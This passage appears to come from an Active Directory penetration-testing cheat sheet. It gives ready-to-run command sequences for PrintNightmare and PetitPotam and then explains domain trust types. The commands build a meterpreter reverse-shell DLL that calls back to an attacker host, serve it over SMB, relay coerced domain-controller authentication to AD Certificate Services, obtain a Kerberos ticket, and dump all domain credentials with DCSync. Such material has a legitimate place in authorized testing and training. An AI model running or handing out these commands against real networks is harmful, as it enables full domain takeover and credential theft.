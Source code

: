 ```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=8080 -f dll > backupscript.dll

# Create a share to host the payload
sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

# Run the exploit
sudo python3 CVE-2021-1675.py <domain>/<user>:<pass> '\\<local>\<share path>\<exploit>.dll'
```
**`PetitPotam`**
`PetitPotam` ([`CVE-2021-36942`](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942)) is an `LSA Spoofing` vulnerability. It allows an unauthenticated attacker to coerce a DC into authenticating to another host using NTLM over SMB via [`Local Security Authority Remote Protocol (LSARPC)`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc) by abusing Microsoft’s [`Encrypting File System Remote Protocol (MS-EFSRPC)`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31). It required Active Directory Certificate Services to be in use. 

Read more about the attack [here](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/). We'll need to know the web enrollment URL of our CA host. Use [`certi`](https://github.com/zer1t0/certi) to find it if it's unknown. We'll also need the exploit script from [here](https://github.com/topotam/PetitPotam).
```shell
# For this attack, we'll need ntlmrelayx.py from impacket
sudo ntlmrelayx.py -debug -smb2support --target <web enrollment url of CA host> --adcs --template DomainController

# Run the exploit in another session
python3 PetitPotam.py <local IP> <DC IP>

# In the first terminal, we should get a B64 cert, use it here:
python3 /opt/PKINITtools/gettgtpkinit.py <domain>/<DC Name>\$ -pfx-base64 <cert> dc01.ccache

# Use TGT
export KRB5CCNAME=dc01.ccache

# We can now perform a DCSync attack
secretsdump.py -just-dc -k -no-pass "<DC Name>$"@<DC Name>.<Domain>
```
# Domain Trusts
A domain trust establishes forest-forest or domain-domain authentication. It's usually used to make acquisitions smoother. It allows users to access or manage resources in other domains through creating a link between the authentication systems of both domains. This link can be either uni or bidirectional. Types of trusts:
- `Parent-child`: two or more domains within the same forest. Child has bidirectional trust with parent domain.
- `Cross-link`: Trust between child domains.
- `External`: Non-transitive trust between two separate domains in separate forests that aren't joined by a forest trust. Utilizes [SID filtering](https://www.serverbrain.org/active-directory-2008/sid-history-and-sid-filtering.html) for requests.
- `Tree-root`:  Bidirectional transitive trust between forest root domain and a new tree root domain. Created by design when a new tree root domain is setup within a forest.
- `Forest`: Transitive trust between two forest root domains.
- [`ESAE`](https://docs.microsoft.com/en-us/security/compass/esae-retirement): Bastion forest used to manage AD.
